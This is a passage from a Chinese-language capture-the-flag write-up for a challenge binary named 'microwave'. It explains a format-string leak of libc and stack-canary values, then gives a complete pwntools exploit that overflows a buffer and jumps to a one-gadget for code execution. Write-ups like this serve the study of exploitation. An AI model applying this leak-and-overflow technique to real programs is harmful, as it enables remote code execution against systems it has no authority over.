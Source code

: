 所以可以构造脚本泄露地址计算`one gadget RCE`的地址

```python
    p = process('./microwave')
    p.sendline('1')
    p.recvuntil('username: ')
    p.sendline('%p.'*8)
    p.recvuntil('password: ')
    p.sendline('n07_7h3_fl46')
    leak_data = p.recvuntil("Twitter account").split()[1].split('.')    # 收到的内容应该为Checking 0x7f1ced485780.0x7f1ced1b62c0.0x7f1ced68f700.0xa.(nil).0x266f732ee9fbe900.0x7f1ced484708.0x7f1ced484710，第一个split(默认参数为空格)将接收到的数据分为两部分，取第二部分即泄露出的数据再通过split将数据放到list里面去
    libc_addr = int(leak_data[7],16) - 0x3C5710 # stdin ,减去libc中的偏移即得到libc的加载地址
    # libc_addr = int(leak_data[6],16) - 0x3C5708   # stdout
    one_gadget_addr = libc_addr + 0x45216
    canary = int(leak_data[5],16)
    log.info("canary = %#x, one_gadget RCE = %#x,"%(canary, one_gadget_addr))
```

调试可以发现canary的值刚好在rsp+0x418-0x10处，而read的输入从rsp开始

![Alt](img/canary11.png)

根据汇编代码可以知道函数func_over的栈帧在canary值正确的情况下通过`add rsp,418h`销毁，所以溢出的偏移量为0x418，据此有

```python
from pwn import *

p = process('./microwave')
p.sendline('1')
p.recvuntil('username: ')
p.sendline('%p.'*8)
p.recvuntil('password: ')
p.sendline('n07_7h3_fl46')
leak_data = p.recvuntil("Twitter account").split()[1].split('.')
libc_addr = int(leak_data[7],16) - 0x3C5710
one_gadget_addr = libc_addr + 0x45216
canary = int(leak_data[5],16)
log.info("canary = %#x, one_gadget RCE = %#x,"%(canary, one_gadget_addr))

payload = 'A'*(0x418-0x10)  # 填充到canary处
payload += p64(canary)
payload += 'B'*8
payload += p64(one_gadget_addr)

p.sendline('2')
p.recvuntil('#> ')
p.send(payload)
sleep(0.5)
```